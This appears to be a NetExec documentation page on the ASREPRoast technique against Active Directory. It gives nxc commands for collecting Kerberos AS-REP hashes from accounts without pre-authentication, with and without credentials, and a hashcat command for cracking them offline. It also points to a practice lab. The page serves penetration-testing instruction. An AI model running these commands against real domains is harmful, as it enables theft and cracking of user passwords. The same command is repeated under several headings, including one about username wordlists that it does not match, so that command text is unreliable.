 ```yaml
---
description: >-
  Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos
  pre-authentication required
---
```


# ASREPRoast

{% hint style="success" %}
You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain
{% endhint %}

### Without authentication

> The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS\_REQ request to the KDC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

```bash
nxc ldap $TARGET -u $USER -p $PASSWORD --asreproast output.txt
```

Using a wordlist, you can find wordlists of username here

```bash
nxc ldap $TARGET -u $USER -p $PASSWORD --asreproast output.txt
```

{% hint style="info" %}
Set the password value to '' to perform the test without authentication
{% endhint %}

### With authentication

If you have one valid credential on the domain, you can retrieve all the users and hashes where the Kerberos pre-authentication is not required

```bash
nxc ldap $TARGET -u $USER -p $PASSWORD --asreproast output.txt
```

{% hint style="info" %}
Use option **kdcHost** when the domain name resolution fail

```bash
nxc ldap $TARGET -u $USER -p $PASSWORD --asreproast output.txt --kdcHost domain_name
```
{% endhint %}

### Cracking with hashcat

To crack hashes on the file output.txt with hashcat use the following options:

```bash
hashcat -m18200 output.txt wordlist
```

### Example

Forest machine is a good example to test **ASREPRoast** with NetExec

{% embed url="https://www.hackthebox.eu/home/machines/profile/212" %}

### Ressources

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat" %}

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/" %}
